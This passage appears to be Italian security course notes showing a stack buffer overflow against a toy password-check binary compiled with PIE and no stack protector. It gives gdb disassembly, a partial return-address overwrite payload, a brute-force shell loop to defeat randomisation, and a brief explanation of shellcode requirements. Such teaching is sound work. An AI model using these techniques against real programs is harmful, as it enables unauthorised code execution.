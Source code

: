 **Caso 2**: disabilitiamo lo stack protector, ma lasciamo PIE attivo:
```bash
gcc stack-pwd.c -o stack-pwd-pie -fno-stack-protector
```
questo vuol dire che indirizzi effettivi vengono assegnati all'esecuzione del programma, per cui possiamo vederli dopo avere eseguito run all'interno di gdb, tuttavia il primo byte rimane uguale (offset), per cui possiamo tentare un attacco [[Buffer overflow#Off-by-one|off-by-one]].

```gdb
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000000848 <+0>:     push   rbp
   0x0000000000000849 <+1>:     mov    rbp,rsp
   0x000000000000084c <+4>:     sub    rsp,0x10
   0x0000000000000850 <+8>:     mov    DWORD PTR [rbp-0x4],edi
   0x0000000000000853 <+11>:    mov    QWORD PTR [rbp-0x10],rsi
   0x0000000000000857 <+15>:    mov    eax,0x0
   0x000000000000085c <+20>:    call   0x7ea <checkpassword>
   0x0000000000000861 <+25>:    test   eax,eax
   0x0000000000000863 <+27>:    je     0x87b <main+51>
   0x0000000000000865 <+29>:    lea    rdi,[rip+0xd2]        # 0x93e
   0x000000000000086c <+36>:    call   0x670 <puts@plt>
   0x0000000000000871 <+41>:    mov    edi,0x0
   0x0000000000000876 <+46>:    call   0x6c0 <exit@plt>
   0x000000000000087b <+51>:    lea    rdi,[rip+0xcb]        # 0x94d
   0x0000000000000882 <+58>:    call   0x670 <puts@plt>
   0x0000000000000887 <+63>:    mov    edi,0x1
   0x000000000000088c <+68>:    call   0x6c0 <exit@plt>
```

L'offset dell'indirizzo a cui vogliamo saltare è `0x865`, mentre l'indirizzo di ritorno di `<checkpassword>` è `0x861`, ipoteticamente sarebbe necessario cambiare il primo bye, quindi:
```bash
echo -e "AAAAAAAAAAAAAAAAAAAAAAAA\x65" | ./stack-pwd-pie
Segmentation fault
```

Questo accade perchè `gets()` termina le stringhe con `0x00`, quindi dobbiamo sovrascrivere anche il secondo byte, ci interessa che ci sia un `0x<>8`, ma non possiamo sapere quale è la digit prima dell'$8$, in quanto viene randomizzata, modifichiamo quindi anche il secondo byte, e usiamo un approccio brute force, prima o poi anche la digit prima dell'$8$ sarà $0$:
```bash
while true;
do echo -e "AAAAAAAAAAAAAAAAAAAAAAAA\x65\x08" | ./stack-pwd-pie;
done
```

---
### Shellcodes
Uno **shellcode** è un piccolo programma che esegue una shell (o codice arbitrario), esso deve essere:
- Piccolo in modo da stare nel buffer
- Indipendente dalla posizione in memoria
- Non deve avere un null byte `0x00` ciò è dovuto al fatto che molto spesso gli overflow sono causati da operazioni su stringhe, mettendo un byte `0x00` si bloccherebbe lo shell code, in quanto verrebbe interpretato come la fine della stringa
- Indipendente da librerie
![[Shellcode.png]]Nelle architetture a 32-bit questo attacco è più pericoloso in quanto i parametri di una funzione li cerca nello stack (sotto il suo return address), non nei registri, è possibile quindi chiamare una funzione ed è pure possibile passargli i parametri:
![[Shellcode 32-bit.png]]
